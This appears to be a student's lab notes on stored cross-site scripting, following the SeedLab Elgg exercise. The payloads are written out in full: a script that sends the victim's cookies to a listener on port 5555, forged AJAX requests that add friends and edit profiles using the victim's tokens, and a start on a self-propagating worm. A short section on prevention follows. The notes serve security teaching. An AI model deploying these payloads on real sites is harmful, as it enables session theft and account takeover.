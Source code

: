 # Cross Site Scripting(XSS)

## Summary 
## Condition:
* The victim is logged in to the vulnerable website. 

## What happens: 
* The attacker injects a malicious JavaScript code in the vulnerable website. 
* The victim surfs through the pages of the vulnerable website. 
* Attacker's JavaScript code runs on the victim's browser. 
* Attackers performs malicious activities with the JavaScript. 

Note: CSRF attacks do not violate same origin policy. (?)

## Useful Links:
* Web and network security, CS 155, Stanford University, https://crypto.stanford.edu/cs155/
* https://excess-xss.com/
* Seedlab, Syracuse University,http://www.cis.syr.edu/~wedu/seed/ 

## Tasks:

#### A simple blogpost application in php 
* Link : https://gitlab.com/shivapbhusal/app_analysis/tree/shiva/security_examples/xss
* Shows how attackers can inject malicious JavaScript code to the system and perform evil activities. 

#### SeedLab Activities 
Link : http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_XSS_Elgg/Web_XSS_Elgg.pdf
#### Task 1: Popup window
The user injects this code in his profile. When other user visits his profile, a popup window appears. 

```javascript
<script>
alert('XSS attack');
</script>
```

#### Task 2 : Display cookies 

```javascript
<script>
alert(document.cookie);
</script>
```

#### Task 3: Stealing cookies: 
The TCP server program in c can be used to view the cookie information from the port 5555. 

```javascript
<script>
document.write('<img src=http://127.0.0.1:5555?c='+escape(document.cookie) + '   >');
</script>
```

#### Task 4 : Sending the friend request on behalf of the user. 
If I inject this code to my profile, whoever visits my profile will send a friend request to me. 

```javascript
<script>
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=40"+ts+token; 
var Ajax=new XMLHttpRequest ();
Ajax.open("GET",sendurl,true); 
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send(); 
</script>
```

#### Task 5: Changing the profile information of the user. 
It is not working properly. The draft code for the post request looks like this. We need to figure out how we can get name and other information 

```javascript 
<script>
var Ajax=null;
var victim_ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var victim_token="&__elgg_token="+elgg.security.token.__elgg_token;
var victim_id="&guid="+elgg.page_owner.guid;
var victim_name="&name="+elgg.page_owner;
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
var content=victim_ts+victim_token+victim_name+"&description=Samy_is_my_hero&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2"+victim_id; 
Ajax.send(content);
</script>
```

JSON parse for guid
```javascript 
<script>
var owner = JSON.parse(elgg.page_owner);
alert(owner.guid);
</script>
```

Working example JSON parse:
```javascript 
<script>
var jsontext = '{"firstname":"Jesper","surname":"Aaberg"}'
var info=JSON.parse(jsontext);
alert(info.firstname);
 </script>
```

Test for self propagating worm :
```javascript 
<script id="worm">
var strcode=document.getElementById("worm");
alert(strcode.innerHTML);
</script>
```

## Preventive measures:
### Summary:
* **Encoding**: Interpreting the user input as just the data and not the code. Treating malicious JavaScript as just a plain text. 

* **Validation**: Filters the user input and excludes the malicious JavaScript code. 

### In Elgg (SeedLab): 
* Login as admin. Go to administration>>plugin>>HTMLawed 1.8. Click on Activate. 
* Go to /var/www/XSS/elgg/views/default/output folder & uncomment htmlspecialchars() call in the files listed in the instruction document. 
